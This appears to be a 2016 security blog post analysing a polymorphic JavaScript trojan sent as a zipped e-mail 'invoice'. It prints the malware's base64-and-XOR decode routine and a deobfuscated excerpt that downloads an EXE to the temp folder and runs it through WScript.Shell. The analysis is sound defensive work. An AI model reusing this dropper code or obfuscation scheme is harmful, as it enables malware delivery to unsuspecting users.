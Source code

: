 ```yaml
---
layout: post
title: "Polymorphic Javascript malware"
thumbnail: mosquito-240.jpg
date: 2016-02-18
---
```


Recently I received two similar e-mails with attached trojans, both using encoded Javascript. In this post we look into how the Javascript is encoded and what it does when it is run.

The e-mail described that I received a remittance and that I should open the attachment to claim my money. The attachment was a ZIP file named `WU6533175781.zip`, containing a ZIP file named `file.zip`, containing a Javascript file named [`invoice_Ir1vkp.js`](https://github.com/Sjord/encoded-js-trojan/blob/orig/invoice_Ir1vkp.js). The file is probably zipped twice to get around some antivirus software. Also, the Javascript is encoded:


    var insensatePtK = decode('"AD4qHg9EOH0qJwgvWw=="');
    var revelryk8e = decode('"Gj4RISoGYgs0AyUXY2Y="');
    …
    if (riledjg) {
        engageegd[toutfVe](wandervwY + Math.pow(2, 19));
    }

As you can see both the variable names and the string literals are encoded. The `decode` function is defined in the same file. It base64-decodes the string and XORs it with a cipher. The code to base64-decode is copied literally from [webtoolkit.info](http://www.webtoolkit.info/javascript_base64.html).

    var decode = function (packedText) {
        var cipher ="WmIlf4LSyOmC766Y";
        …
        var text = Base64.decode(packedText);

        var cipherLength = cipher.length;
        var result = "";
        for (var i = 0; i < text.length; i++) {
            result += String.fromCharCode(text.charCodeAt(i) ^ cipher.charCodeAt(i % cipherLength));
        }
        return result;
    };

Now, what is interesting is that the two mails that I received had basically the same Javascript, encoded differently. So the structure and the decode function was the same, but the cipher, the string literals and the variable names differed. I assume this is to make it harder for virus scanners to detect this thing. It is remarkable then that the `decode` function itself is not obfuscated, so that would be an easy marker to recognize this malware.

Because we have the `decode` function it is easy to decode all the strings in the script, and we can rename the variables to see what [the code](https://github.com/Sjord/encoded-js-trojan/blob/master/invoice_Ir1vkp.js) really does:

    var wscriptShell = "WScript.Shell";
    var shellObject = WScript.CreateObject(wscriptShell);
    …        
    for (var i = 0; i < urls.length; i++) {
        try {
            var url = urls[i];
            httpObject.open(get, url, false);
            httpObject.send();
            if (httpObject.status == statusOk) {
                try {
                    streamObject.open();
                    streamObject.type = 1;
                    streamObject.write(httpObject.responseBody);
                    if (streamObject.size > minSize) {
                        i = urls.length;
                        streamObject.position = 0;
                        streamObject.saveToFile(exePath, 2);
                        success = true;
                    }
                } finally {
                    streamObject.close();
                }
            }
        } catch (ignored) {}
    }
    if (success) {
        shellObject[exec](tempDir + Math.pow(2, 19));
    }

Apparently it downloads an EXE into the temp directory, and runs it. I assume to install the latest CryptoLocker variation. Normally in a web browser you can't download things and run EXE's. However, this script is sent as an attachment and meant to be run from the disk and not from the internet, which gives it permissions to do these things.

As you can see it takes extra effort to obfuscate the EXE filename, using 524288 at one place and `Math.pow(2, 19)`, which is also 524288, when actually running the file. It is a pretty simple piece of Javascript, encoded in a simple way. However, the encoding makes it possible to change the code in each spam campaign or perhaps even each e-mail, which makes it hard to block by virus scanners.
